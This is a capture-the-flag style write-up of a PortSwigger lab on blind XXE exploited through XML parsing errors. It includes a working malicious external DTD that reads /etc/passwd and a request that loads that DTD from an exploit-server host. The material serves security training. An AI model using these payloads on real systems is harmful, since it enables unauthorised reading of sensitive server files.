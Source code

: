 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b76738eb-313f-45c0-a38a-9d4c51878a6a)


## Overview :

 An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Invoking the malicious external DTD in a request will result in an error message in the response like the following:

```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Clicking on checkstock , browser sends a request as follows.

```xml
POST /product/stock HTTP/2
Host: 0af30033047260258367614100b000eb.web-security-academy.net
Cookie: session=TnnpQlYQo6aNbZz19PpZgs3EumVLAIfl
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af30033047260258367614100b000eb.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0af30033047260258367614100b000eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to trigger an error message & retreive the contents of `/etc/passwd` file in the application response, we need to perform few steps.

#### Steps -

1. Make a request which has a DOCTYPE containing a payload which will fetch the contents of the malicious DTD hosted at our exploit server. 
2. The exploit server will retreive the contents of `/etc/passwd` and it will try to send the exfiltrated data back to the **non-existent server**

> Since the server address is non existent, it will throw an error. So we get both error and the contents of /etc/passwd file in the response.


#### Craft a payload -

In the request to check the stock, we can insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0ac1007c04b760e583b56076015d00b1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
> NOTE - We intentionally give the name/location of the file as **non-existent** to induce an error.


When we send the request , we get the error message along with the contents of /etc/passwd.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9d72e719-b4b0-430c-9df7-daf4d3958171)

Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/523460f4-1ad3-42aa-ab1c-0d90babbb31f)


